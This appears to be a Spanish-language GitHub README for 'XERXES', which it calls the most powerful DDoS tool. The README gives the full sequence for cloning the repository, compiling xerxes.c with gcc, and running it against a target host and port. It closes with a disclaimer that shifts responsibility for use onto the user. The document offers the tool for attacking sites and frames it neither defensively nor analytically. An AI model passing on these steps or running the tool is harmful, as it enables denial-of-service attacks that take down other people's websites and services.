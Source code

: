 ##### XERXES
XERXES la herramienta Ddos más potente.

##### 🦂 INSTALACION:🦂

```
* apt update && apt upgrade -y

* pkg install -y git

* git clone https://github.com/Scorpio28-Oficial/XERXES

* cd XERXES

* ls

* chmod 777 xerxes.c

* ls

* gcc xerxes.c -o xerxes

USO:

* ./xerxes www.fakeweb.com 80
```

##### By: Scorpio28

##### El uso de la herramienta, es responsabilidad de quien la utilize.


##### 🎭 EL CONOCIMIENTO ES LIBRE. 🎭
